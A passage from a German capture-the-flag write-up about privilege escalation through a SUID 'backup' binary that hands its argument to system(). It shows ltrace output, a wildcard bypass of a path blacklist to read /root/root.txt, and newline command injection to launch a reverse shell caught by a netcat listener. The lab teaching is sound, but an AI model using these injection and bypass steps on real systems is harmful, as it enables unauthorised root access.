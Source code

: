 1.  Das 1\. muss ungleich **-q** sein, damit das Programm nicht im quiet mode gestartet wird.
2.  Das 2\. Argument muss einen gültigen Key enthalten
3.  Das 3\. Argument enthält einen 508 characters langen String.

Vielen Dank für's durchlesen. :)

```shell
) = nil strchr("arg3", '|') = nil strstr("arg3", "//") = nil strcmp("arg3", "/") = 1 strstr("arg3", "/etc") = nil strcpy(0xffb1c24b, "arg3") = 0xffb1c24b getpid() = 6034 time(0) = 1520597049 clock(0, 0, 0, 0) = 7799 srand(0x4885486b, 0xc864d874, 0x4885486b, 0x804918c) = 0 rand(0, 0, 0, 0) = 0xb41e2b0 sprintf("/tmp/.backup_188867248", "/tmp/.backup_%i", 188867248) = 22 sprintf("/usr/bin/zip -r -P magicword /tmp/.backup_188867248 arg3 > /dev/null", "/usr/bin/zip -r -P magicword %s %s > /dev/null", "/tmp/.backup_188867248", "arg3") = 65 system("/usr/bin/zip -r -P magicword /tmp/.backup_188867248 arg3 > /dev/null" <no return ...> --- SIGCHLD (Child exited) --- <... system resumed> ) = 3072 access("/tmp/.backup_188867248", 0) = -1 remove("/tmp/.backup_188867248") = -1 fclose(0x9881160) = 0 +++ exited (status 0) +++
```

Das 3\. Argument gibt also an, von welchem Verzeichnis ( oder welcher Datei ) eine Zip Datei erstellt werden soll. Dafür wird der Befehl **system()** benutzt. Außerdem wird das 3\. Argument mit **.. /root ; & ` $ | //** und **/etc** verglichen. Wenn das 3\. Argument einen dieser Strings enthält, bekommen wir eine Zip Datei, welche nur ein Trollface enthält.

Jetzt gibt es verschiedene Methoden wie wir vorgehen können.

## 1\. Wildcards

Das ist die einfachste Methode. Wir wollen an den Inhalt von **/root/root.txt**, aber **/root** ist auf der Blacklist. Um diese zu entgehen können wir [Wildcards](https://wiki.ubuntuusers.de/Bash/#Wildcards) benutzen.

```shell
tom@node:/usr/local/bin$ backup -q a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508 /r??t/r??t.txt
```

oder

```shell
tom@node:/usr/local/bin$ backup -q a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508 /r*t/r*t.txt
```

## 2\. Newline

Zuerst ändern wir den Port bei unserem Reverse Shell Skript **/tmp/reverse.js**. Dann lassen wir NetCat diesen Port abhören.

```shell
nc -lnvp 4445
shell
```

Jetzt können wir als 3\. Argument **\n** benutzen, damit **system()** einen weiteren Befehl ausführt. Z.B. unser Skript.

```shell
tom@node:/usr/local/bin$ backup -q a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508
```
